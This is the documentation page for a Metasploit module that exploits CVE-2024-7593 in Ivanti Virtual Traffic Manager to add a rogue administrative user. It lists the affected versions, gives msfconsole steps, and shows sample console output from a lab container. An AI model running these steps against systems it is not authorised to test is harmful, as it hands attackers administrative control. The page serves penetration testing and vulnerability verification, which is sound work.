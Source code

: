 ## Vulnerable Application

This module exploits an access control issue in Ivanti Virtual Traffic Manager (vTM), by adding a new
administrative user to the web interface of the application.

Affected versions include:
* 22.7R1
* 22.6R1
* 22.5R1
* 22.3R2
* 22.3
* 22.2

The vendor published an advisory [here]
(https://forums.ivanti.com/s/article/Security-Advisory-Ivanti-Virtual-Traffic-Manager-vTM-CVE-2024-7593?language=en_US).

A proof-of-concept is available [here](https://packetstormsecurity.com/files/179906).

## Testing

Docker images with the software are available from [here](https://hubgw.docker.com/r/pulsesecure/vtm).

**Successfully tested on**

- 22.7R1 on Ubuntu 20.04.6 LTS
- 22.6R1 on Ubuntu 20.04.6 LTS
- 22.5R1 on Ubuntu 20.04.6 LTS
- 22.3R1 on Ubuntu 20.04.5 LTS
- 22.2 on Ubuntu 20.04.4 LTS

## Verification Steps

1. Deploy Ivanti Virtual Traffic Manager (vTM)
2. Start `msfconsole`
3. `use auxiliary/admin/http/ivanti_vtm_admin`
4. `set RHOSTS <IP>`
5. `run`
6. A new admin user should have been added to the web interface.

## Options

### NEW_USERNAME
Username to be used when creating a new user with admin privileges.

### NEW_PASSWORD
Password to be used when creating a new user with admin privileges.

## Scenarios

Running the module against Virtual Traffic Manager (vTM) 22.7R1 should result in an output
similar to the following:

```
msf6 > use auxiliary/admin/http/ivanti_vtm_admin 
msf6 auxiliary(admin/http/ivanti_vtm_admin) > set RHOSTS 172.17.0.2
msf6 auxiliary(admin/http/ivanti_vtm_admin) > exploit 
[*] Running module against 172.17.0.2

[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version: 22.7R1
[+] New admin user was successfully added:
	h4x0r:w00Tw00T!
[+] Login at: https://172.17.0.2:9090/apps/zxtm/login.cgi
[*] Auxiliary module execution completed
```
